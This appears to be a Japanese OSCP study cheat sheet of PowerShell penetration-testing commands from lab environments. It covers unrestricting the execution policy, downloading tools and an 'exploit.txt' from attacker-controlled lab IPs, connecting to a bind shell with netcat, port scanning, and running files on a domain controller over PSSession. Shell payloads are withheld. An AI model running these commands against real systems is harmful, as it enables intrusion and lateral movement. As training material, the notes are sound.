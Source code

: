 # PowerShell

### 実行権限

```powershell
powershell
Get-ExecutionPolicy -Scope CurrentUser
Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser
Get-ExecutionPolicy -Scope CurrentUser
```



### ファイル転送

```powershell
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.11.0.4/wget.exe','C:\Users\offsec\Desktop\wget.exe')"
```

```cmd
powershell -NoProfile -ExecutionPolicy unrestricted -Command (Invoke-WebRequest -Uri "http://192.168.119.127:5555/exploit.txt" -OutFile "exploit.txt")
```



##### ダウンロードせずに実行する場合は・・・

AVに検知されるので画像

![image-20230105081915662](img/powershell/image-20230105081915662.png)



### リバースシェル※AVに検知されるためここに記載することができない

OSCP_cheetsheet(Excel)に記載している。

![image-20221226084237435](img/powershell/image-20221226084237435.png)



### バインドシェル※AVに検知されるためここに記載することができない

OSCP_cheetsheet(Excel)に記載している。

![image-20221226084638580](img/powershell/image-20221226084638580.png)

* netcatでバインドシェルに接続する

  ```
  nc -nv 10.11.0.22 443
  ```

  

### チェックサム

```powershell
Get-FileHash -Algorithm "SHA256" -Path "C:\Users\student\exploit.txt"

$hash1 = ""
$hash2 = ""
$hash1 -eq $hash2
```



### ポートスキャン

```
for($i=1; $i -le 140; $i++){
	Test-NetConnection 172.50.3.1 -Port $i
}
```



### リモートホスト操作

* ホスト名の確認

```cmd
nslookup
> set type=all
> _ldap._tcp.dc._msdcs.sandbox.local

_ldap._tcp.dc._msdcs.sandbox.local      SRV service location:
          priority       = 0
          weight         = 100
          port           = 389
          svr hostname   = SANDBOXDC.sandbox.local
```

* セッションを作成する

```powershell
$dcsesh = New-PSSession -Computer SANDBOXDC
```

* コマンド実行する

  ```powershell
  Invoke-Command -Session $dcsesh -ScriptBlock {ipconfig}
  ```

* ファイルをコピーする

  ```powershell
  Copy-Item "C:\Users\Public\whoami.exe" -Destination "C:\Users\Public\" -ToSession $dcsesh
  ```

* ファイルを実行する

  ```powershell
  Invoke-Command -Session $dcsesh -ScriptBlock {C:\Users\Public\whoami.exe}
  ```

  

